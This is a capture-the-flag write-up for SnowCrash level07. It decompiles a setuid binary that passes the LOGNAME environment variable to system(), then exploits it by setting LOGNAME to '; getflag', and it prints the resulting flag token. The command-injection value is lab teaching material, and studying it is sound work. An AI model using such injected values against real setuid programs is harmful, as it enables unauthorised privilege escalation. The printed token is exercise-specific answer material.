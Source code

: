# Flag07

Another executable with the name of my user:
```
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
level07@SnowCrash:~$ pwd
/home/user/level07
level07@SnowCrash:~$
```
that I will transfer to my local session:
```
~ $ scp -P 4242 level07@10.13.250.56:/home/user/level07/level07 ~/
           _____                      _____               _
          / ____|                    / ____|             | |
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15
level07@10.13.250.56's password:
level07                                                                               100% 8805     1.7MB/s   00:00

~ $ file level07
level07: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fa7a45263971559b03d34ffabfd13692d0111654, with debug_info, not stripped

~ $ ghidra
```
Here is the `main()` function:
```
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  char *param2;
  int iVar1;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  param2 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",param2);
  iVar1 = system(local_1c);
  return iVar1;
}

```
Same pattern as [before](#Flag03). However, in this case, the program looks for the environment variable "LOGNAME" and prints it on the terminal.

Let's look into it a bit more deeply:

[`asprintf`](https://stackoverflow.com/questions/12746885/why-use-asprintf-instead-of-sprintf) allocates
> a string large enough to hold the output including the terminating null byte, and return\[s] a pointer to it via the first argument.

On the `local_1c` variable is saved the string `"/bin/echo %s "`, to which is added the environment variable received by  the `getenv()` function. The function `system()` is then called to execute the command, the return value of which is returned by the program:
```
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$ echo $?
0
level07@SnowCrash:~$
```
What I can do is modify the environment variable to make the program "spit" the token:
```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ export LOGNAME="; getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
